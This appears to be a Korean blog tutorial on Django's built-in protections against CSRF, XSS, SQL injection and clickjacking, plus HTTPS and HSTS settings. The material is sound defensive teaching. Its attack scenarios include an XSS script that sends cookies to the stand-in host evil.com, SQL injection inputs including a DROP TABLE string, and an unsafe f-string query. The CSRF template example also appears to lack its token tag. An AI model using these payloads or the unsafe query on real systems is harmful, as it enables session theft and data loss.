





## 왜 Django가 "Secure by Default"인가

웹 보안에서 가장 무서운 건 "내가 모르는 취약점"이다.
OWASP Top 10 중 상당수가 개발자가 직접 방어 코드를 작성하지 않아 생기는 실수다.

Django의 철학: **개발자가 아무것도 안 해도 주요 공격이 기본 차단되어야 한다.**[^django-security-docs]



## 1. CSRF 방어

**CSRF(Cross-Site Request Forgery)**: 사용자가 로그인된 상태에서 악성 사이트가 사용자 대신 요청을 보내는 공격이다.

### 공격 시나리오



### Django의 방어 방법

`CsrfViewMiddleware`가 모든 POST 요청에 CSRF 토큰을 검증한다.[^csrf-docs]

```django
{# Template에서 #}
<form method="post" action="/transfer/">
    {# ← 숨겨진 input 필드로 토큰 삽입 #}
  <input name="amount" value="10000">
  <button type="submit">송금</button>
</form>
```

렌더링 결과:
```html
<form method="post" action="/transfer/">
  <input type="hidden" name="csrfmiddlewaretoken" value="abc123xyz...">
  <input name="amount" value="10000">
  <button type="submit">송금</button>
</form>
```



악성 사이트는 다른 도메인이라 `abc123` 토큰 값을 알 수 없다. 토큰 없이 POST를 보내면 403 Forbidden이다.

### AJAX에서 CSRF 처리

```javascript
// fetch API에서 CSRF 토큰 전송
const csrfToken = document.cookie
  .split(";")
  .find(c => c.trim().startsWith("csrftoken="))
  ?.split("=")[1];

fetch("/api/transfer/", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
    "X-CSRFToken": csrfToken,     // ← 헤더로 전송
  },
  body: JSON.stringify({ amount: 10000 }),
});
```

Django 4.0부터 로그인 시 CSRF 토큰이 자동 갱신된다.

## 2. XSS 방어

**XSS(Cross-Site Scripting)**: 사용자 입력에 포함된 JavaScript가 다른 사용자의 브라우저에서 실행되는 공격이다.

### 공격 시나리오

```
공격자가 댓글 입력:
<script>document.location='https://evil.com/steal?c='+document.cookie</script>

이 댓글이 저장되고 다른 사용자가 페이지를 열면
쿠키가 evil.com으로 전송됨 😱
```

### Django의 방어 방법

DTL은 **모든 변수를 기본으로 HTML 이스케이프**한다.[^xss-docs]

```django
{# 공격자 입력: <script>alert('XSS')</script> #}
{{ comment.text }}

{# 렌더링 결과: #}
&lt;script&gt;alert(&#x27;XSS&#x27;)&lt;/script&gt;
{# 브라우저는 이것을 텍스트로만 표시. 실행 안 됨. #}
```

이스케이프 변환 규칙:

| 문자 | 이스케이프 |
|------|-----------|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `'` | `&#x27;` |
| `"` | `&quot;` |
| `&` | `&amp;` |

개발자가 의도적으로 HTML을 그대로 출력하려면 명시적으로 safe 선언이 필요하다:

```django
{{ content|safe }}        {# ← 명시적 비활성화. 신뢰할 수 있는 콘텐츠에만 사용 #}

  {{ trusted_html }}

```

`|safe`를 사용자 입력에 적용하면 즉시 XSS 취약점이 된다.

## 3. SQL Injection 방어

**SQL Injection**: 사용자 입력을 SQL에 직접 삽입해 쿼리를 조작하는 공격이다.

### 공격 시나리오

```python
# 절대 이렇게 하면 안 되는 코드
username = request.GET.get("username")
User.objects.raw(f"SELECT * FROM users WHERE username = '{username}'")

# 공격자가 username에 입력:
# ' OR '1'='1
# 완성된 SQL:
# SELECT * FROM users WHERE username = '' OR '1'='1'
# → 모든 유저 조회됨!

# 더 심한 경우:
# '; DROP TABLE users; --
```

### Django의 방어 방법

Django ORM은 **쿼리 파라미터화(Query Parameterization)**를 사용한다.[^sql-injection-docs]

```python
# Django ORM은 항상 안전
username = request.GET.get("username")
User.objects.filter(username=username)

# 내부적으로 DB 드라이버에게 이렇게 전달됨:
# SQL: SELECT * FROM users WHERE username = %s
# 파라미터: ['사용자_입력값']
# DB가 파라미터를 SQL 코드가 아닌 데이터로 처리
```



Raw SQL을 써야 할 때도 반드시 파라미터를 분리해야 한다:

```python
# ❌ 위험 — 절대 사용 금지
cursor.execute(f"SELECT * FROM users WHERE username = '{username}'")

# ✅ 안전 — 파라미터 분리
cursor.execute("SELECT * FROM users WHERE username = %s", [username])
```

## 4. Clickjacking 방어

**Clickjacking**: 악성 사이트가 투명한 `<iframe>`으로 대상 사이트를 덮어씌워 사용자가 자신도 모르게 클릭하게 만드는 공격이다.



### Django의 방어 방법

`XFrameOptionsMiddleware`가 `X-Frame-Options` 헤더를 설정한다.[^clickjacking-docs]

```python
# settings.py 기본값
X_FRAME_OPTIONS = "DENY"  # 어떤 사이트에서도 iframe으로 포함 불가
# X_FRAME_OPTIONS = "SAMEORIGIN"  # 같은 도메인에서만 iframe 허용
```

```
HTTP Response 헤더:
X-Frame-Options: DENY
```

브라우저는 이 헤더를 보고 iframe 렌더링을 거부한다.

특정 View에서만 iframe을 허용하려면:

```python
from django.views.decorators.clickjacking import xframe_options_sameorigin, xframe_options_exempt

@xframe_options_sameorigin   # 같은 도메인에서만 허용
def embed_widget(request):
    ...

@xframe_options_exempt        # iframe 완전 허용 (위험! 신중하게)
def public_embed(request):
    ...
```

## 5. HTTPS / HSTS

`SecurityMiddleware`(미들웨어 스택 첫 번째)가 담당한다.[^https-docs]

```python
# settings.py (운영 환경)
SECURE_SSL_REDIRECT = True          # HTTP → HTTPS 자동 리디렉션
SECURE_HSTS_SECONDS = 31536000      # HSTS: 1년간 HTTPS 강제
SECURE_HSTS_INCLUDE_SUBDOMAINS = True  # 서브도메인 포함
SECURE_HSTS_PRELOAD = True          # 브라우저 preload 목록 등록
SESSION_COOKIE_SECURE = True        # 세션 쿠키를 HTTPS에서만 전송
CSRF_COOKIE_SECURE = True           # CSRF 쿠키를 HTTPS에서만 전송
```

**HSTS 주의사항**: `SECURE_HSTS_SECONDS`를 한 번 설정하면 그 기간 동안 브라우저가 해당 도메인을 무조건 HTTPS로만 접근한다. HTTP로 되돌릴 수 없다. 먼저 짧은 값(300초)으로 테스트 후 늘려가는 것을 권장한다.

## 보안 체크 명령

Django는 보안 설정을 자동으로 검사해준다:

```bash
# 보안 설정 점검 (배포 전 반드시 실행)
python manage.py check --deploy

# 출력 예시:
# WARNINGS:
# ?: (security.W004) You have not set a value for the SECURE_HSTS_SECONDS setting.
# ?: (security.W008) Your SECRET_KEY has less than 50 characters.
# ERRORS:
# ?: (security.E010) DEBUG is True — should be False in production
```

## 보안 설정 요약

```python
# settings/production.py — 운영 환경 보안 설정 체크리스트
DEBUG = False
SECRET_KEY = env("DJANGO_SECRET_KEY")      # 50자 이상 랜덤 문자열
ALLOWED_HOSTS = env.list("DJANGO_ALLOWED_HOSTS")

# HTTPS / HSTS
SECURE_SSL_REDIRECT = True
SECURE_HSTS_SECONDS = 31536000
SECURE_HSTS_INCLUDE_SUBDOMAINS = True
SECURE_HSTS_PRELOAD = True

# Cookies
SESSION_COOKIE_SECURE = True
CSRF_COOKIE_SECURE = True
SESSION_COOKIE_HTTPONLY = True   # JS에서 세션 쿠키 접근 불가

# Clickjacking
X_FRAME_OPTIONS = "DENY"

# Content Security Policy (선택, 추가 XSS 방어)
# pip install django-csp
CSP_DEFAULT_SRC = ("'self'",)
```

## 관련 글

- [Django 프레임워크 큰 그림](/post/django-overview): 보안을 포함한 Django 전체 구조
- [Django 요청-응답 라이프사이클](/post/django-lifecycle): 미들웨어 스택에서 보안이 적용되는 위치
- [Django ORM 심층](/post/django-orm-deep): SQL Injection 방어의 실제 구현인 파라미터화된 쿼리

---

[^django-security-docs]: Django Project, <a href="https://docs.djangoproject.com/en/5.2/topics/security/" target="_blank">Security in Django — Django Docs</a>
[^csrf-docs]: Django Project, <a href="https://docs.djangoproject.com/en/5.2/ref/csrf/" target="_blank">Cross Site Request Forgery protection — Django Docs</a>
[^xss-docs]: Django Project, <a href="https://docs.djangoproject.com/en/5.2/topics/security/#cross-site-scripting-xss-protection" target="_blank">XSS protection — Django Docs</a>
[^sql-injection-docs]: Django Project, <a href="https://docs.djangoproject.com/en/5.2/topics/security/#sql-injection-protection" target="_blank">SQL injection protection — Django Docs</a>
[^clickjacking-docs]: Django Project, <a href="https://docs.djangoproject.com/en/5.2/ref/clickjacking/" target="_blank">Clickjacking Protection — Django Docs</a>
[^https-docs]: Django Project, <a href="https://docs.djangoproject.com/en/5.2/topics/security/#ssl-https" target="_blank">SSL/HTTPS — Django Docs</a>
